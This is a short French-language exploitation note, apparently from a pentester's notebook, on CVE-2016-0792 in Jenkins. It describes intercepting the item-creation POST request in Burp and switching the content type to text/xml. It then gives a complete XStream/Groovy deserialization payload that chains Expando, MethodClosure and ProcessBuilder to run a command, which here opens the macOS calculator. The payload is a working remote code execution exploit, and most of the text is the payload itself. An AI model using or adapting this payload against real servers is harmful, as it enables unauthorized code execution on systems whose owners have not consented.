


# CVE-2016-0792 Jenkins

Cet Exploit Marche dans le cas ou Groovy est présent dans le classpath et que le code est parsé par Xstream. Cette Technique reste spécifique a la JVM.

### Exploitation

<figure><figcaption>
Il faut dabord se rendre dans la fenetre de creation d'item avec un external job pour capturer la methode post avec burp
</figcaption></figure>

<figure><figcaption></figcaption></figure>

* S'assurer de la methode
* Modifier le content-type pour du 'text/xml'
* Observer le resultat dans la réponse.

Dans le cas présent l'app calculator va s'ouvrir.

<pre class="language-groovy"><code class="lang-groovy"><strong>&#x3C;map>
</strong>  &#x3C;entry>
    &#x3C;groovy.util.Expando>
      &#x3C;expandoProperties>
        &#x3C;entry>
          &#x3C;string>hashCode&#x3C;/string>
          &#x3C;org.codehaus.groovy.runtime.MethodClosure>
            &#x3C;delegate class="groovy.util.Expando" reference="../../../.."/>
            &#x3C;owner class="java.lang.ProcessBuilder">
              &#x3C;command>
                &#x3C;string>open&#x3C;/string>
                &#x3C;string>/Applications/Calculator.app&#x3C;/string>
              &#x3C;/command>
              &#x3C;redirectErrorStream>false&#x3C;/redirectErrorStream>
            &#x3C;/owner>
            &#x3C;resolveStrategy>0&#x3C;/resolveStrategy>
            &#x3C;directive>0&#x3C;/directive>
            &#x3C;parameterTypes/>
            &#x3C;maximumNumberOfParameters>0&#x3C;/maximumNumberOfParameters>
            &#x3C;method>start&#x3C;/method>
          &#x3C;/org.codehaus.groovy.runtime.MethodClosure>
        &#x3C;/entry>
      &#x3C;/expandoProperties>
    &#x3C;/groovy.util.Expando>
    &#x3C;int>1&#x3C;/int>
  &#x3C;/entry>
&#x3C;/map>
</code></pre>
